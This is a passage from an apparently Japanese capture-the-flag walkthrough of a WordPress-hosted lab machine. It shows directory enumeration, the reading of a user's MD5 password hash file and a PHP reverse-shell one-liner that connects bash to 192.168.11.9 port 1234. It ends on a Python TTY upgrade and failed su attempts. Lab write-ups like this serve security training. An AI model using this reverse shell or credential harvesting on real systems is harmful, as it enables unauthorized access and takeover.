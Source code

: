 ```shell
$ ls -al /etc/cron.d
total 12
drwxr-xr-x  2 root root 4096 Jun 24  2015 .
drwxr-xr-x 77 root root 4096 Dec  2  2024 ..
-rw-r--r--  1 root root  102 Feb  9  2013 .placeholder
```

```shell
$ ls /home
robot
$ ls -al /home/robot
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

キー（2/3）を発見したが、robot ユーザーでログインする必要がある。

```shell
$ cat /home/robot/password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

```shell
$ su - robot
su: must be run from a terminal
```

```shell
$ find / -user robot 2>/dev/null
/home/robot/password.raw-md5
/home/robot/key-2-of-3.txt
```

リバースシェルをこれに変えた。

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.11.9/1234 0>&1'") ?>
```

su: must be run from a terminal エラーの回避策として、Python 使用。  
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

```shell
daemon@linux:/opt/bitnami/apps/wordpress/htdocs$ python -c 'import pty; pty.spawn("/bin/bash")'
<pps/wordpress/htdocs$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/opt/bitnami/apps/wordpress/htdocs$ su - robot
su - robot
Password: c3fcd3d76192e4007dfb496cca67e13b

su: Authentication failure
daemon@linux:/opt/bitnami/apps/wordpress/htdocs$ su - robot
su - robot
Password: robot:c3fcd3d76192e4007dfb496cca67e13b

su: Authentication failure
daemon@linux:/opt/bitnami/apps/wordpress/htdocs$
```
